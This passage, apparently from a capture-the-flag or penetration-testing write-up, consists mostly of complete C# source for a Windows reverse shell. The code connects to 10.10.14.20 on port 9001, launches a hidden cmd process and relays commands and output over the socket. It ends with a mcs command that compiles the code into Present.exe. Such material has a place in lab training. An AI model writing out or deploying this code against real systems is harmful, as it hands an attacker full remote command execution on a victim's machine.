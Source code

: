 ```c#

		public Run()
		{
			using(TcpClient client = new TcpClient("10.10.14.20", 9001))
			{
				using(Stream stream = client.GetStream())
				{
					using(StreamReader rdr = new StreamReader(stream))
					{
						streamWriter = new StreamWriter(stream);

						StringBuilder strInput = new StringBuilder();

						Process p = new Process();
						p.StartInfo.FileName = "cmd";
						p.StartInfo.CreateNoWindow = true;
						p.StartInfo.UseShellExecute = false;
						p.StartInfo.RedirectStandardOutput = true;
						p.StartInfo.RedirectStandardInput = true;
						p.StartInfo.RedirectStandardError = true;
						p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
						p.Start();
						p.BeginOutputReadLine();

						while(true)
						{
							strInput.Append(rdr.ReadLine());
							//strInput.Append("\n");
							p.StandardInput.WriteLine(strInput);
							strInput.Remove(0, strInput.Length);
						}
					}
				}
			}
		}

		public static void Main(string[] args)
		{
			new Run();
		}

		private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
        {
            StringBuilder strOutput = new StringBuilder();

            if (!String.IsNullOrEmpty(outLine.Data))
            {
                try
                {
                    strOutput.Append(outLine.Data);
                    streamWriter.WriteLine(strOutput);
                    streamWriter.Flush();
                }
                catch (Exception err) { }
            }
        }
	}
}
```
Compile with `mcs`, remember the filename must match the namespace.
```markdown
> mcs -out:Present.exe Present.cs
```